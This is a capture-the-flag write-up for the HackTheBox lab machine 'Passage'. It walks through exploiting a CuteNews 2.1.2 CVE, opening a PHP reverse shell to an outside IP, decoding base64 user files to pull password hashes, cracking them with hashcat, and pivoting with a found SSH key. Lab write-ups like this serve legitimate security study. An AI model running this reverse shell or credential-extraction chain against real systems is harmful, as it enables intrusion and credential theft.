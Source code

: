 ```yaml
---
description: https://app.hackthebox.com/machines/Passage
---
```


# 🚒 Passage

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find 2 TCP ports open:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On the web page we see the follwoing information ->

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Fail 2 ban is an anti brute force software:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So basically with a gobuster I got my IP banned so i'm going to be cautious when it comes to finding subdirectories

through enumeration, i find that it's CuteNews 2.1.2 running with a known CVE ->

{% embed url="https://www.exploit-db.com/exploits/48800" %}

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Very straightforward CVE

We see some PHP files&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So with a quick PHP reverse shell ->

```
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We get a more stable shell

after enumerating a bit, we find where is stored the flat files that are used by cuteCMS as a "database"

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we see this is base64 encoded:

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After looking up a write-up to see how a pro would go quick to go through all of this, i found this crazy one-liner that got me thinking i should start learning those:

```
for f in *; do cat $f | grep -v 'php die'; echo; done | grep . | while read line; do echo $line | base64 -d; echo; done | grep '"pass"'
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**explanation:**

1.  **Loop Over Files**:

    ```sh
    for f in *; do
    ```

    This loop iterates over all files in the current directory (using `*` to match all filenames).
2.  **Process Each File**:

    ```sh
    cat $f | grep -v 'php die'; echo;
    ```

    For each file, it:

    * Uses `cat $f` to read the content of the file.
    * Pipes the content to `grep -v 'php die'`, which filters out any lines containing the string `'php die'`.
    * Uses `echo` to add a newline after processing each file.
3.  **Concatenate and Filter Non-Empty Lines**:

    ```sh
    done | grep . |
    ```

    After processing all files, `done` ends the loop. The output is then piped to `grep .`, which filters out any empty lines (only lines containing at least one character are kept).
4.  **Read and Decode Each Line**:

    ```sh
    while read line; do echo $line | base64 -d; echo; done |
    ```

    This `while` loop reads each non-empty line:

    * `read line` reads a line into the variable `line`.
    * `echo $line | base64 -d` decodes the line from base64 encoding.
    * `echo` adds a newline after each decoded line.

Since we looked at the home directory and saw a paul user, we could guess that this user is the pivoting path, so i added a grep "paul" to the oneliner as a part of contribution

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

took this hash and looked it up and saw it was mode 1400 on hashcat ->

```
hashcat -m 1400 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I could not change user with my low interaction shell so i did a tty upgrade ->

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and we connect&#x20;

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly find an ssh authorization key:

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We copy the id\_rsa key and connect to nadav user ->

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We'll get root tomorrow&#x20;
